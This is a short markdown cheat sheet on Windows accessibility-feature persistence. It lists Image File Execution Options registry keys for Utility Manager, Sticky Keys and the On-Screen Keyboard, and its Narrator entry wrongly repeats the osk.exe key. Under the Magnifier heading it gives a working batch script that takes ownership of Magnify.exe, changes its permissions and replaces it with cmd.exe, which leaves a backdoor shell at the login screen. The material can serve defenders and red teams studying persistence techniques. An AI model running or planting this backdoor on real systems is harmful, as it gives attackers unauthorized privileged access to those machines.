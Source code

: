 # Accessibility Program

## Debugger

```

```

## Utility Manager

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe
```

## Sticky Keys

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe
```

## Accessibility On-Screen Keyboard

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe
```

## Narrator

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe
```

## Magnifier

```batch
REM Quick script to take own, change perm, backup, and replace Magnify.exe with cmd.exe
REM https://fuzzysecurity.com/tutorials/11.html

takeown.exe /f "C:\Windows\System32\Magnify.exe"
icacls.exe "C:\Windows\System32\Magnify.exe" /grant administrators:F
ren "C:\Windows\System32\Magnify.exe" "Magnify_back.exe"
copy "C:\Windows\System32\cmd.exe" "C:\Windows\System32\Magnify.exe"
```

---
## References

- [Persistence Info: Image File Execution Options](https://persistence-info.github.io/Data/ifeo.html)